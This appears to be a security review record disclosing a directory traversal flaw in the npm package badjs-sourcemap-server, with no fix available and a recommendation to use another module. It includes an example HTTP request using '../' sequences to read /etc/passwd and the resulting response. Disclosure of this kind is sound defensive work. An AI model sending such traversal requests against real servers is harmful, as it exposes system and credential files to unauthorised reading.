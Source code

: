 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Liang Gong
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/badjs-sourcemap-server
Review-Date: '2017-06-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Directory Traversal*<br><br>Recommendation: Because there is no fix for this module, we recommend using a different one.
### Details
`badjs-sourcemap-server` recieves files sent by `badjs-sourcemap`.  `badjs-sourcemap-server` is vulnerable to a directory traversal issue, giving an attacker access to the filesystem by placing "../" in the url.  Example request: ``` GET /../../../../../../etc/passwd HTTP/1.1 host:localhost ``` and response: ``` HTTP/1.1 200 OK Date: Wed, 17 May 2017 22:59:49 GMT Connection: keep-alive Transfer-Encoding: chunked  {content of /etc/passwd} ```
<br><br>• Affected Versions: <99.999.9999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://github.com/JacksonGL/NPM-Vuln-PoC/tree/master/directory-traversal/badjs-sourcemap-server)']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
